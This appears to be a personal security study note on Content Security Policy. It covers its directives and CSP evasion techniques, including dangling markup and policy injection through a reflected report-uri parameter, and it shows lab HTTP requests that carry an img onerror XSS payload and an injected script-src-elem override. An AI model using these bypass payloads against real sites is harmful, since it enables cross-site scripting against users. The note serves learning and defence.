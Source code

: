 >[!summary]
>Content Security Policy (CSP) is a detection and prevention mechanism that provides mitigation against attacks such as [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) [^1] and [Clickjacking](Clickjacking.md). CSP is usually implemented in the web server as a return header of the form: `Content-Security-Policy: policy` where policy is a string of policy directives separated by semicolons.

[^1]: https://portswigger.net/web-security/cross-site-scripting/preventing#:~:text=Mitigating%20XSS%20using%20content%20security%20policy%20(CSP)

The CSP provides the client browser with information about permitted resources that a page can load or from which can be embedded in frames.

Some examples:
- `Content-Security-Policy: frame-ancestors 'self';`: CSP whitelists frames to the same domain only
- `Content-Security-Policy: frame-ancestors normal-website.com;`: framing restricted to a named site
- `Content-Security-Policy: script-src 'self';`: scripts are allowed only from the same origin ([SOP](Same-origin%20policy%20(SOP).md))
- `Content-Security-Policy: script-src https://scripts.normal-website.com;`: scripts are allowed only from a specific domain
- `Content-Security-Policy: img-src 'self';`: images are allowed only from the same origin ([SOP](Same-origin%20policy%20(SOP).md))
- `Content-Security-Policy: img-src https://scripts.normal-website.com;`: images are allowed only from a specific domain

In addition to whitelisting specific domains, content security policy also provides two other ways of specifying trusted resources: nonces and hashes:

- The CSP directive can specify a nonce (a random value) and the same value must be used in the tag that loads a script. If the values do not match, then the script will not execute. To be effective as a control, the nonce must be securely generated on each page load and not be guessable by an attacker.
- The CSP directive can specify a hash of the contents of the trusted script. If the hash of the actual script does not match the value specified in the directive, then the script will not execute. If the content of the script ever changes, then you will of course need to update the hash value that is specified in the directive.

>[!warning] CSP and Electron applications
>What does the `script-src 'self'` CSP value mean for `file://` URLs used in Electron App? 
>
>It allows **any file from the file system** to be loaded! [^csp-electron]

[^csp-electron]: [Paul Gerste - Remote Code Execution in Tutanota Desktop Due to Code Flaw](../../Readwise/Articles/Paul%20Gerste%20-%20Remote%20Code%20Execution%20in%20Tutanota%20Desktop%20Due%20to%20Code%20Flaw.md#^ee5e7a)

## CSP Evasion

### Using `img` and dangling markup

It's quite common for a CSP to block resources like `script`. However, many CSPs do allow image requests. This means you can often use `img` elements to make requests to external servers in order to disclose [CSRF tokens](Cross-Site%20Request%20Forgery%20(CSRF).md#CSRF%20tokens), for example.

From the research: [Evading CSP with DOM-based dangling markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)

![XSS + Dangling Markup + CSP bypass + CSRF](Cross-Site%20Scripting%20(XSS).md#XSS%20+%20Dangling%20Markup%20+%20CSP%20bypass%20+%20CSRF)

### Policy injection

You may encounter a website that reflects input into the actual policy, most likely in a `report-uri` directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives.

Default policy (noticed the `token` parameter in `report-uri`):
```http
GET /?search=<img+src+onerror=alert(1)> HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net



HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

The parameter can be controlled and arbitrary policies can be injected:
```http
GET /?search=<img+src+onerror=alert(1)>&token=filler;+foo+'bar' HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=filler; foo 'bar'
```

Normally, it's not possible to overwrite an existing `script-src` directive. However, Chrome recently introduced the `script-src-elem` [^script-src-element] directive, which allows you to control `script` elements, but not events.

[^script-src-element]: https://w3c.github.io/webappsec-csp/#directive-script-src-elem

```html
Content-Security-Policy: script-src-elem 'none'; script-src-attr 'unsafe-inline'

<script>alert("This will be blocked")</script>
<a href="#" onclick="alert('This will be allowed')">test</a>
```

Crucially, this new directive allows you to [overwrite existing `script-src` directives](https://portswigger.net/research/bypassing-csp-with-policy-injection).

```http
GET /?search=<img+src+onerror=alert(1)>&token=filler;+script-src-elem+'none'%3b+script-src-attr+'unsafe-inline' HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=filler; script-src-elem 'none'; script-src-attr 'unsafe-inline'
```

![](../../zzz_res/attachments/CSP-policy-injection.png)

Further examples:
- [eXtra Safe Security layers](../../Play%20ground/CTFs/eXtra%20Safe%20Security%20layers.md)

### Other techniques

- [AngularJS CSP bypass](../Dev,%20scripting%20&%20OS/AngularJS.md#AngularJS%20CSP%20bypass)
- [Ambushed by AngularJS: a hidden CSP bypass in Piwik PRO](https://portswigger.net/research/ambushed-by-angularjs-a-hidden-csp-bypass-in-piwik-pro)
- [Bypass CSP using MIME sniffing](MIME%20sniffing.md#Bypass%20CSP%20using%20MIME%20sniffing)
- Bypass CSP using [JSONP](JSONP%20vulnerabilities.md#JSON%20with%20Padding%20(JSONP)) as a gadget [^CSP-JSONP]

[^CSP-JSONP]: [Riding the Waves of API Versioning Unmasking a Stored XSS Vulnerability, CSP Bypass Using YouTube OEmbed](../../Readwise/Articles/SMHTahsin33%20-%20Riding%20the%20Waves%20of%20API%20Versioning%20Unmasking%20a%20Stored%20XSS%20Vulnerability,%20CSP%20Bypass%20Using%20YouTube%20OEmbed.md), SMHTahsin33